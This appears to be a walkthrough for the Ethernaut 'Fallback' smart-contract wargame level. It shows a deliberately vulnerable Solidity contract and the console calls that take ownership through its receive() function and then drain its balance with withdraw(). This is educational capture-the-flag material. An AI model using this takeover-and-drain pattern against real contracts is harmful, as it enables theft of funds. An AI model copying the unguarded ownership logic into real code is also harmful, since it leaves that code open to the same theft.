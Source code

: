 ```yaml
---
description: fallback() function and receive() function
---
```


# 1 - Fallback

Ethernaut Level1: [Fallback](https://ethernaut.openzeppelin.com/level/0x2a24869323C0B13Dff24E196Ba072dC790D52479)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

### Goal of this level

* claim ownership of the contract
* reduce its balance to 0

### What you should know before

* Sending transactions using `web3.js` **** \
  ****-> see [here](https://stackoverflow.com/questions/52740950/how-to-send-wei-eth-to-contract-address-using-truffle-javascript-test)
* Understanding concept of `fallback()` and `receive()` function \
  \-> see [here](https://www.youtube.com/watch?v=CMVC6Tp9gq4)

## Solution

<details>

<summary>Key to solve this problem  🔑</summary>

using `recieve` function

</details>

### 1. Claming Ownership

```solidity
function contribute() public payable {
  require(msg.value < 0.001 ether);
  contributions[msg.sender] += msg.value; // here
  if(contributions[msg.sender] > contributions[owner]) {
    // can't reach here because of require statement
    owner = msg.sender; 
}
```

```solidity
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender; // and here
}
```

#### 1) contribution

```javascript
// You can send any value between 0 and 0.001 ether
> await contract.contribute({ value: 3 });
```

#### 2) receive() function

```javascript
// Here, since there's no require statement,
// you can send any value bigger than 0.
> await contract.sendTransaction({ value: 3 });
```

&#x20;&#x20;

### 2. Reducing balance of the contract to 0

```solidity
function withdraw() public onlyOwner {
  payable(owner).transfer(address(this).balance);
}
```

Since now we have **ownership** of the contract, we can **withdraw** all the balance of the contract.

```javascript
> await contract.withdraw();
```

Let's check if we successfully drained the contract.

```javascript
> await web3.eth.getBalance(contract.address); // 0
```

Done! 😎



